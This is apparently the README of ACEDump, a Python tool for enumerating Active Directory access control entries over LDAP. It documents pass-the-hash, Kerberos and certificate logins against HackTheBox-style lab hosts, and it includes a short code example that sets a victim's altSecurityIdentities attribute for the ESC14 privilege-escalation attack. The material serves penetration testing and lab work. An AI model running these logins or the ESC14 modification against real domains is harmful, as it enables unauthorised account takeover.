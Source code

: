 #######
ACEDump
#######

| Enumerate Active Directory ACEs using python3 ldap3 and impacket.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

|

.. code-block::

    options:
    -h, --help            show this help message and exit
    -s SERVER, --server SERVER
                            Domain controller IP/hostname
    -u USERNAME, --username USERNAME
                            Username
    -p PASSWORD, --password PASSWORD
                            Password
    -d DOMAIN, --domain DOMAIN
                            Domain name
    -b BASE_DN, --base-dn BASE_DN
                            Base DN, e.g. DC=domain,DC=com
    -k, --kerberos        Use Kerberos authentication
    --tls                 Use TLS
    -f FILTER, --filter FILTER
                            LDAP filter, e.g. (|(objectClass=user))
    -H HASHES, --hashes HASHES, --nthash HASHES
                            NT hash
    --aes AES             AES hash
    --cert CERT           Certificate file
    --certkey CERTKEY     Key file
    --certpass CERTPASS   Certificate password if any
    --userdn USERDN       User DN for certificate Auth
    --kdc KDC             KDC FQDN
    --port PORT           LDAP port
    -i, --interact        Connect and spawn python console
    --dontfixtime         Don't fix clock skew
    --pagesize PAGESIZE   Size of pagination, default:500
    -v, --verbose         Enable verbose
    --debug               Enable debug output (you don't want to use this)
    --allsid              Include all SID (low and default RIDs)

|

.. image:: demo/img1.png
  :width: 1200
  :alt: IMG1

|

***********
Credentials
***********

| ACEDump support NTLM, Kerberos, X509 certificates (no pfx support yet), NT hash, AES hash, user/password, StartTLS (389) and TLS (636) 
| If you don't provide any hash or password, ACEDump will try a blank password.
| Kerberos auth require valid DNS entry for targeted DC.

.. code-block:: bash

    # Kerberos CCACHE
    export KRB5CCNAME='USER.ccache'
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB 

    # Kerberos NTHash (etype23)
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # Kerberos AES
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913

    # Kerberos user/password
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Certificate X509 PEM over TLS (636)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key --tls

    # Certificate X509 PEM with StartTLS (389)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key

    # NTLM (password or hash)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Anonymous (untested)
    acedump -v -s DC01.BOX.HTB

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime (there is no NTP request).
| Use dontfixtime option if you want to deal with clock skew by yourself.

|

***********
Interactive
***********

| ACEDump connect to LDAP and start a python console.
| The connection object is "conn"

|

.. code-block:: bash

    $ acedump -s 10.129.231.205 -u USER -p Password123 -k -i -v

      █████╗  ██████╗███████╗██████╗ ██╗   ██╗███╗   ███╗██████╗ 
     ██╔══██╗██╔════╝██╔════╝██╔══██╗██║   ██║████╗ ████║██╔══██╗
     ███████║██║     █████╗  ██║  ██║██║   ██║██╔████╔██║██████╔╝
     ██╔══██║██║     ██╔══╝  ██║  ██║██║   ██║██║╚██╔╝██║██╔═══╝ 
     ██║  ██║╚██████╗███████╗██████╔╝╚██████╔╝██║ ╚═╝ ██║██║     
     ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═╝     
                -- version 0.0.5 --

    ✅ Anonymous bind : ldap://10.129.231.205:389 - cleartext
    ⚠️  LDAP clock in past : 2025-06-20 18:19:09 (7199.408678 seconds)
    🛠️  KDC : DC01.BOX.HTB
    🛠️  KRB5_CONFIG saved to /tmp/krb.conf
    ✅ CCache saved to /tmp/USER.ccache
    ✅ Authenticated : ldap://DC01.BOX.HTB:389 - cleartext
    ✅ Valid DN : DC=BOX,DC=htb

    ------------------------
    ACEDump interactive mode
    ------------------------

    Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    >>> print(conn)
    ldap://DC01.BOX.HTB:389 - cleartext - user: None - not lazy - bound - open - <local: 10.10.14.182:54201 - remote: 10.129.231.205:389> - tls not started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|

| Example to search user using SamAccountName attribute

.. code-block:: bash

    conn.search(args.base_dn, '(SamAccountName=johndoe)', attributes=['*'])
    conn.entries

|